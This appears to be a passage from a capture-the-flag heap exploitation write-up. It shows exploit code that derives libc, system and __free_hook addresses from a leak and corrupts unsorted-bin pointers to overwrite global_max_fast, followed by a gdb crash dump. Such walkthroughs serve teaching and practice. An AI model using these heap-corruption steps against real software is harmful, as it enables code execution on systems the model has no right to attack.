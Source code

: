 In a standard 64 bit heap, 0x80 is the largest size of any fastbin in the heap. However, we should be able to change this by acting like a fake unsorted bin is stored at this address. However, we will have to subtract 0x10 from this address when we create our fake chunk because we want the forward and backwards pointers to overlap with the global_max_fast. We will calculate the address of this, as well as some other important addresses, by unpacking the 8 bytes that we can view in this freed chunk.

```
leak = u64(target.recv(8))
libc = leak - 0x3c4b78
global_max_fast = libc + 0x3c67f8
system = libc + libc_bin.symbols['system']
free_hook = libc + libc_bin.symbols['__free_hook']
```

To carry out the unsorted bin attack, we will edit the pointers on the chunk and see how they are referenced when a new chunk is created. To do this, we could statically review the code about unsorted bins in the malloc source code. An easier way would be to overwrite the pointers with two different, recognizable values, like "aaaaaaaa" and "bbbbbbbb". Then, when it SEGFAULTS, we can look at the crash to see which pointer was being written to!

```
edit(2, 0x20, "aaaaaaaa" + "bbbbbbbb" + "C" *0xf)

insert(0x20, "D"*0x1f)       # 0
```

Now, let's run this and see where it crashes:

```
Program received signal SIGSEGV, Segmentation fault.
_int_malloc (av=av@entry=0x7f61e1e74b20 <main_arena>, bytes=bytes@entry=0x80) at malloc.c:3516
3516    malloc.c: No such file or directory.
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────[ registers ]────
$rax   : 0x7ffff2ac8d3f      →  0x007ffff2ac8d7000
$rbx   : 0x7f61e1e74b20      →  0x0000000100000001
$rcx   : 0x7c
$rdx   : 0x81
$rsp   : 0x7ffff2ac8cc0      →  0x0000000000000009
$rbp   : 0x90
$rsi   : 0x90
$rdi   : 0x7ffff2ac8d40      →  0x00007ffff2ac8d70  →  0x0000000000000080
$rip   : 0x7f61e1b31e10      →  <_int_malloc+656> mov QWORD PTR [r15+0x10], r12
$r8    : 0x0
$r9    : 0x1999999999999999
$r10   : 0x0
$r11   : 0x7f61e1c275e0      →  0x0002000200020002
$r12   : 0x7f61e1e74b78      →  0x000055a5704ae1a0  →  0x0000000000000000
$r13   : 0x55a5704ae000      →  0x0000000000000000
$r14   : 0x2710
$r15   : 0x6262626262626262 ("bbbbbbbb"?)
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$ds: 0x0000  $es: 0x0000  $cs: 0x0033  $fs: 0x0000  $gs: 0x0000  $ss: 0x002b
────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
0x00007ffff2ac8cc0│+0x00: 0x0000000000000009     ← $rsp
0x00007ffff2ac8cc8│+0x08: 0x0000000000000080
0x00007ffff2ac8cd0│+0x10: 0x00007ffff2ac8d40  →  0x00007ffff2ac8d70  →  0x0000000000000080
0x00007ffff2ac8cd8│+0x18: 0x00007f61e1bc69ef  →  <__printf_chk+271> test r12d, r12d
0x00007ffff2ac8ce0│+0x20: 0x0000000000000001
0x00007ffff2ac8ce8│+0x28: 0x0000003000000010
0x00007ffff2ac8cf0│+0x30: 0xffff80000d5372c1
0x00007ffff2ac8cf8│+0x38: 0x00007ffff2ac8d3f  →  0x007ffff2ac8d7000
```